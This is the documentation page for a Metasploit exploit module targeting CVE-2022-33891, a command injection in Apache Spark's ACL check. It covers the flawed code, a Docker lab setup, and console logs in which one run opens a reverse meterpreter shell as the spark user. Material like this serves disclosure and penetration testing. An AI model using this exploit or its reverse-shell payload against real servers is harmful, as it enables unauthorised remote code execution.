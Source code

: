 ## Vulnerable Application

This module exploits a remote code execution vulnerability (CVE-2022-33891) of Apache Spark.
The Apache Spark UI offers the possibility to enable ACLs via the configuration option `spark.acls.enable`.
With an authentication filter, this checks whether a user has access permissions to view or modify the application.
The permission check is coded using a bash command shell and the unix id command that allows a malicious shell command injection.

Ironically the `spark.acls.enable` configuration setting is designed to improve the security access within the Spark application,
but unfortunately this configuration setting triggers the vulnerable code below.

```
private def getUnixGroups(username: String): Set[String] = {
    val cmdSeq = Seq("bash", "-c", "id -Gn " + username)
    // we need to get rid of the trailing "\n" from the result of command execution
    Utils.executeAndGetOutput(cmdSeq).stripLineEnd.split(" ").toSet
    Utils.executeAndGetOutput(idPath ::  "-Gn" :: username :: Nil).stripLineEnd.split(" ").toSet
  }
}
```

This will result in arbitrary shell command execution as the user `Spark`.

This affects Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1

Installing a vulnerable version of Apache Spark to test this vulnerability is quite easy.

To set the server up use the following docker-compose.yml file and follow the steps below:
```
version: '2'

services:
  spark:
    image: docker.io/bitnami/spark:3.1.1
    environment:
      - SPARK_MODE=master
      - SPARK_RPC_AUTHENTICATION_ENABLED=no
      - SPARK_RPC_ENCRYPTION_ENABLED=no
      - SPARK_LOCAL_STORAGE_ENCRYPTION_ENABLED=no
      - SPARK_SSL_ENABLED=no
    ports:
      - '8080:8080'
```

1. Create the docker-compose.yml in your preferred directory and run `docker-compose up`. Let the container spin up.
1. In a new terminal, enter `sudo docker exec -it spark_spark_1 /bin/bash`
1. In the container bash session, enter: `echo "spark.acls.enable true" >> conf/spark-defaults.conf`
1. cat the contents of spark-defaults.conf to make sure it looks good.
1. Exit the interactive bash shell and Ctrl-C your docker-compose process.
1. Once the containers have powered down gracefully, rerun `docker-compose up`

Once the server and application is up, it's vulnerable and you can access it on port 8080 for testing...

## Verification Steps

1. `use exploit/linux/http/apache_spark_rce_cve_2022_33891`
1. `set RHOSTS <TARGET HOSTS>`
1. `set LHOST <Address of Attacking Machine>`
1. `exploit`
1. You should get a shell or meterpreter as the `spark` user.

## Options

No specific options to be set.

## Scenarios

### Apache Spark version 3.1.1 on Linux 5.10.104-linuxkit with spark.acls.enable set to true

```
msf > use exploit/linux/http/apache_spark_rce_cve_2022_33891
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/apache_spark_rce_cve_2022_33891) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf exploit(linux/http/apache_spark_rce_cve_2022_33891) > set rhosts 192.168.100.43
rhosts => 192.168.100.43
msf exploit(linux/http/apache_spark_rce_cve_2022_33891) > options

Module options (exploit/linux/http/apache_spark_rce_cve_2022_33891):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.100.43   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the vulnerable instance
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.7    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf exploit(linux/http/apache_spark_rce_cve_2022_33891) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.43:8080 can be exploited!
[*] Perform sleep test of 10 seconds...
[+] The target is vulnerable. Sleep was around 10 seconds [10.033867019]!
[*] Exploiting...
[*] Sending stage (40164 bytes) to 192.168.100.43
[-] Meterpreter session 3 is not valid and will be closed
[*] 192.168.100.43 - Meterpreter session 3 closed.
[*] Sending stage (40168 bytes) to 192.168.100.43
[*] Meterpreter session 4 opened (192.168.100.7:4444 -> 192.168.100.43:62618) at 2022-08-26 10:49:46 +0000

meterpreter > sysinfo
Computer     : 7a26a9fb7ce3
OS           : Linux 5.10.104-linuxkit #1 SMP Thu Mar 17 17:08:06 UTC 2022
Architecture : x64
Meterpreter  : python/linux
meterpreter > getuid
Server username: spark
```

### Apache Spark version 3.1.1 on Linux 5.10.104-linuxkit WITHOUT the spark.acls.enable option

Note: This version is vulnerable, however the `spark.acls.enable` option is not set, hence the vulnerable code will not be triggered.
Response on POST payload request will be 200 instead of 403.

```
msf > use exploit/linux/http/apache_spark_rce_cve_2022_33891
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/apache_spark_rce_cve_2022_33891) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf exploit(linux/http/apache_spark_rce_cve_2022_33891) > set rhosts 192.168.100.43
rhosts => 192.168.100.43
msf exploit(linux/http/apache_spark_rce_cve_2022_33891) > options

Module options (exploit/linux/http/apache_spark_rce_cve_2022_33891):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.100.43   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI of the vulnerable instance
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.100.7    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf exploit(inux/http/apache_spark_rce_cve_2022_33891) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.43:8080 can be exploited!
[-] Exploit aborted due to failure: not-vulnerable: The target is not exploitable. The 192.168.100.43:8080 did not respond a 403 response. "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf exploit(linux/http/apache_spark_rce_cve_2022_33891) >
```

## Limitations
The check to determine if the application is vulnerable is based on a 403 response and the execution of a randomized `sleep` command.
The exploit is a blind command injection, so there is nothing reflected back on the page during the command execution.
Timing the sleep command execution is therefore a pretty safe bet to check if the command injection is successful.

Credits goes to HuskyHacks that used this test in his [POC](https://github.com/HuskyHacks/cve-2022-33891) on GitHub.
